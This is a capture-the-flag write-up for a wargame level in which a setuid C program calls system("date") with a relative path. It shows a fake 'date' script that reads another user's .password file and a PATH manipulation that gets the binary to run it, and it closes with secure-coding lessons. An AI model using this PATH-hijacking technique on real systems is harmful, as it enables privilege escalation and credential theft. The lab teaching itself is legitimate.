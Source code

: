 ## Level 1: avoid the "system" call in C

When the live CD starts,
you are automatically logged in as user `level00`.
The "message of the day" says:

> In /home/level01/.password is the password of the level01 user.
> Your mission, should you choose to accept it, is to read that
> file and login as level01 to advance to the next level.
> You may find the files in /levels/level01 useful.

All levels on this CD work roughly the same way:

- The password of each `levelXX` user is stored in a file named `.password` in their home directory.

- The user home directories are well protected:
  only their owners have access (`0700` mode)

- The vulnerable program and its source code are stored in the `/levels/levelXX` directories.

- The explanation of the level is shown when you login,
  and the same message is also in the `motd.txt` file of the user.

- The explanation of the level always contains some hint as to how you can beat the challange, so it's good to read carefully.

OK, let's get started!

Taking the hint from the message after login,
let's look at the files in the `/levels/level01` directory:

    level00@box:~$ ls -l /levels/level01
    total 32
    -rw-rw-r--  1 level01  level01    69 Mar  9 19:08 Makefile
    -rwsr-xr-x  1 level01  level01  7352 Mar  9 19:08 level01
    -rw-rw-r--  1 level01  level01   152 Mar  9 19:08 level01.c

Anything unusual here?
The user permission of the file `level01` looks pretty unusual: `rws`.
What's that?

Normally the 3rd letter in the permission bits is either `x` or `-`,
indicating whether the file is executable or not.
Here we have `s`,
which indicates the *setuid* bit is set.
Normal programs are executed as the current user.
In contrast,
programs with the setuid bit set are executed as the owner of the file.
So,
even though we are logged in as user `level00` now,
when we execute this program it will run as `level01`,
and enjoy the same access privileges as that user,
instead of `level00`.
Maybe this can be useful for something.

Let's run it and see what it does:
```
level00@box:~$ /levels/level01/level01
Current time: Tue Sep  3 23:55:54 UTC 2013
```

Ok that's not very interesting.
It looks like it just prints the date, that's it.

The relevant part of the source code seems to be this:
```
printf("Current time: ");
fflush(stdout);
system("date");
return 0;
```

Notice that instead of using a native C function to get the date,
the program uses the `system` function to run the `date` command.
We can look up what `system` does exactly with `man system`:
it executes the specified command by calling `/bin/sh -c`.

Consider how the shell executes a command that is not an absolute path:
it takes the list of directories defined in the `$PATH` variable,
and checks if an executable file with the same name exists or not,
and runs the first match it finds.

Therein lies our exploit:

1. Create a script named "date",
   and make it print the content of `/home/level01/.password`:

        level00@box:~$ cat >/tmp/date
        #!/bin/cat /home/level01/.password
        ^D  # press Control-D to stop editing

2. Make it executable

        $ chmod +x /tmp/date

3. Prepend the directory of the script to `PATH`,
   so that our script is found before the real `date` program.

        $ PATH=/tmp:$PATH

Now if we run the `level01` command again:
```
$ /levels/level01/level01
Current time: aepeefoo
#!/bin/cat /home/level01/.password
```

Bingo! Now we can login as user `level01` using the revealed password.

### Lessons to learn

- Read well the documentation and understand the libraries and methods you use:
  `man system` well explains that it should not be used in setuid programs.

- If you must use `system()`,
  do not use relative paths,
  as the program can be easily subverted by manipulating the `$PATH` variable.
